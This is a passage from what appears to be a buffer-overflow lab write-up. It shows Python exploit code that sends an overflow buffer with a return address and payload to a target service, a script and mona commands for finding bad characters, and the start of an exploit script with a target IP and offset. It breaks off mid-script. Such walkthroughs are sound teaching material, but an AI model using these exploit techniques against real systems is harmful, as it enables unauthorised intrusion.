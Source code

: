 ```python

buffer = overflow + retn + padding + payload

# build message followed by a newline
buf = ""
buf += buffer
buf += "\n"
s.send(buf)
print "Sent: {0}".format(buf)
data = s.recv(1024)
print "Received: {0}".format(data)


```

## Finding bad Characters

Before I am able to locate a good jump point or generate shellcode, I need to know the badchars that the application with miff up.

To do this I will need to create two matching byte arrays and then compare them after I send one as a payload, and see which chars get corrupted.


First I will create a byte array with the following python script to add to my payload:

```python
#!/usr/bin/env python
from __future__ import print_function

for x in range(1, 256):
   print("\\x" + "{:02x}".format(x), end='')

print()

```

Then in mona I will create a working dir and then make a byte array (both the python array and mona are using \x00 as a badchar alreay)

`!mona config -set workingfolder c:\mona\%p`

`!mona bytearray -b "\x00"`

I will take note of the working dir location:

![image](https://user-images.githubusercontent.com/83407557/185806871-7c8cb197-596f-4a1d-bfbb-110ba060ba93.png)


```python
#!/usr/bin/env python2
# exploit.py

import socket
import sys

# setup the Target's IP and port.
RHOST = "10.10.218.237"
RPORT = 31337

# create a TCP connection (socket)
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

# The payload

padding = ""
offset = 146
```